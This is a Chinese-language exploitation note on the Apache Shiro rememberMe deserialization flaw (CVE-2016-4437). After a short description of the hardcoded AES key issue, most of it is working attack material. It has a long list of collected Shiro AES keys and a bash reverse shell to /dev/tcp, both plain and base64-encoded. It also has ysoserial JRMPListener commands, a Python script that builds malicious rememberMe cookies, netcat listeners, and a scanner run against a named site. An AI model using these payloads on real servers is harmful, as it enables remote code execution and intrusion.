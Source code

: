 ```yaml
---
title: shiro
---
```


## CVE-2016-4437）Apache Shiro <= v1.2.4 反序列化漏洞
一、漏洞简介
Apache shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值-->Base64解码-->AES解密-->反序列化。
然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。
## 二、漏洞影响
Apache Shiro <= v1.2.4

三、复现过程
## 收集到的key
kPH+bIxk5D2deZiIxcaaaA==
4AvVhmFLUs0KTA3Kprsdag==
Z3VucwAAAAAAAAAAAAAAAA==
fCq+/xW488hMTCD+cmJ3aQ==
0AvVhmFLUs0KTA3Kprsdag==
1AvVhdsgUs0FSA3SDFAdag==
1QWLxg+NYmxraMoxAXu/Iw==
25BsmdYwjnfcWmnhAciDDg==
2AvVhdsgUs0FSA3SDFAdag==
3AvVhmFLUs0KTA3Kprsdag==
3JvYhmBLUs0ETA5Kprsdag==
r0e3c16IdVkouZgk1TKVMg==
5aaC5qKm5oqA5pyvAAAAAA==
5AvVhmFLUs0KTA3Kprsdag==
6AvVhmFLUs0KTA3Kprsdag==
6NfXkC7YVCV5DASIrEm1Rg==
6ZmI6I2j5Y+R5aSn5ZOlAA==
cmVtZW1iZXJNZQAAAAAAAA==
7AvVhmFLUs0KTA3Kprsdag==
8AvVhmFLUs0KTA3Kprsdag==
8BvVhmFLUs0KTA3Kprsdag==
9AvVhmFLUs0KTA3Kprsdag==
OUHYQzxQ/W9e/UjiAGu6rg==
a3dvbmcAAAAAAAAAAAAAAA==
aU1pcmFjbGVpTWlyYWNsZQ==
bWljcm9zAAAAAAAAAAAAAA==
bWluZS1hc3NldC1rZXk6QQ==
bXRvbnMAAAAAAAAAAAAAAA==
ZUdsaGJuSmxibVI2ZHc9PQ==
wGiHplamyXlVB11UXWol8g==
U3ByaW5nQmxhZGUAAAAAAA==
MTIzNDU2Nzg5MGFiY2RlZg==
L7RioUULEFhRyxM7a2R/Yg==
a2VlcE9uR29pbmdBbmRGaQ==
WcfHGU25gNnTxTlmJMeSpw==
OY//C4rhfwNxCQAQCrQQ1Q==
5J7bIJIV0LQSN3c9LPitBQ==
f/SY5TIve5WWzT4aQlABJA==
bya2HkYo57u6fWh5theAWw==
WuB+y2gcHRnY2Lg9+Aqmqg==
kPv59vyqzj00x11LXJZTjJ2UHW48jzHN
3qDVdLawoIr1xFd6ietnwg==
ZWvohmPdUsAWT3=KpPqda
YI1+nBV//m7ELrIyDHm6DQ==
6Zm+6I2j5Y+R5aS+5ZOlAA==
2A2V+RFLUs+eTA3Kpr+dag==
6ZmI6I2j3Y+R1aSn5BOlAA==
SkZpbmFsQmxhZGUAAAAAAA==
2cVtiE83c4lIrELJwKGJUw==
fsHspZw/92PrS3XrPW+vxw==
XTx6CKLo/SdSgub+OPHSrw==
sHdIjUN6tzhl8xZMG3ULCQ==
O4pdf+7e+mZe8NyxMTPJmQ==
HWrBltGvEZc14h9VpMvZWw==
rPNqM6uKFCyaL10AK51UkQ==
Y1JxNSPXVwMkyvES/kJGeQ==
lT2UvDUmQwewm6mMoiw4Ig==
MPdCMZ9urzEA50JDlDYYDg==
xVmmoltfpb8tTceuT5R7Bw==
c+3hFGPjbgzGdrC+MHgoRQ==
ClLk69oNcA3m+s0jIMIkpg==
Bf7MfkNR0axGGptozrebag==
1tC/xrDYs8ey+sa3emtiYw==
ZmFsYWRvLnh5ei5zaGlybw==
cGhyYWNrY3RmREUhfiMkZA==
IduElDUpDDXE677ZkhhKnQ==
yeAAo1E8BOeAYfBlm4NG9Q==
cGljYXMAAAAAAAAAAAAAAA==
2itfW92XazYRi5ltW0M2yA==
XgGkgqGqYrix9lI6vxcrRw==
ertVhmFLUs0KTA3Kprsdag==
5AvVhmFLUS0ATA4Kprsdag==
s0KTA3mFLUprK4AvVhsdag==
hBlzKg78ajaZuTE0VLzDDg==
9FvVhtFLUs0KnA3Kprsdyg==
d2ViUmVtZW1iZXJNZUtleQ==
yNeUgSzL/CfiWw1GALg6Ag==
NGk/3cQ6F5/UNPRh8LpMIg==
4BvVhmFLUs0KTA3Kprsdag==
MzVeSkYyWTI2OFVLZjRzZg==
CrownKey==a12d/dakdad
empodDEyMwAAAAAAAAAAAA==
A7UzJgh1+EWj5oBFi+mSgw==
YTM0NZomIzI2OTsmIzM0NTueYQ==
c2hpcm9fYmF0aXMzMgAAAA==
i45FVt72K2kLgvFrJtoZRw==
U3BAbW5nQmxhZGUAAAAAAA==
ZnJlc2h6Y24xMjM0NTY3OA==
Jt3C93kMR9D5e8QzwfsiMw==
MTIzNDU2NzgxMjM0NTY3OA==
vXP33AonIp9bFwGl7aT7rA==
V2hhdCBUaGUgSGVsbAAAAA==
Z3h6eWd4enklMjElMjElMjE=
Q01TX0JGTFlLRVlfMjAxOQ==
ZAvph3dsQs0FSL3SDFAdag==
Is9zJ3pzNh2cgTHB4ua3+Q==
NsZXjXVklWPZwOfkvk6kUA==
GAevYnznvgNCURavBhCr1w==
66v1O8keKNV3TTcGPK1wzg==
SDKOLKn2J1j/2BHjeZwAoQ==
## bash 转码地址
http://www.jackson-t.ca/runtime-exec-payloads.html
## bash -i >& /dev/tcp/127.0.0.1/1234 0>&1
## ![image.png](/assets/pages_shiro_1614145050794_0.png)
## 姿势一
在vps上开启rmi注册表服务|
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}'
## ![image.png](/assets/pages_shiro_1614145077881_0.png)
## 生成payload
python exploit.py vps:1099
## ![image.png](/assets/pages_shiro_1614145089851_0.png){:height 150, :width 626}
## exploit.py
```python
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext


if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```
nc监听
nc -lvvp 8888
使用burp发送生成好的payload
## ![image.png](/assets/pages_shiro_1614145153048_0.png)
## ![image.png](/assets/pages_shiro_1614145163486_0.png)
## poc
https://github.com/ianxtianxt/ShiroScan
## 首先我们在服务器中进行监听

nc -lvvp 1234
执行poc进行反弹shell
## python3 shiro.py https://www.0-sec.org "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}"
## ![image.png](/assets/pages_shiro_1614144876802_0.png)
## ![image.png](/assets/pages_shiro_1614144883758_0.png)
